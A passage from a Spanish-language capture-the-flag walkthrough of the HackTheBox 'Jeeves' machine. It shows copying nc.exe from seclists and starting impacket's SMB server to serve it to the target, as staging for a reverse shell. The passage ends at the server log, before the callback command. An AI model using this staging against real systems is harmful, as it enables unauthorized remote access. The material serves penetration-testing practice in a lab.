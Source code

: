 - Bueno ahora lo que podemos hacer es asegurarnos de que si ganamos acceso al sistema ganar acceso ala máquina real y no a un contenedor para eso vamos a ejecutar el siguiente comando.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/jeeves/web13.png">
</p>

## Shell as kohsuke

- Bueno para ganar acceso vamos a necesitar `nc.exe` si tienes `seclists` clonado o instalado ya te viene el `nc.exe`.

```bash
❯ locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
❯ cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```

- Vamos a usar `smbserver.py` o `impacket-smbserver` para ofrecer el `nc.exe` es importante que lo ejecutes en la ruta donde se encuentre el **nc.exe**.

```bash
❯ smbserver.py parrotsec . -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
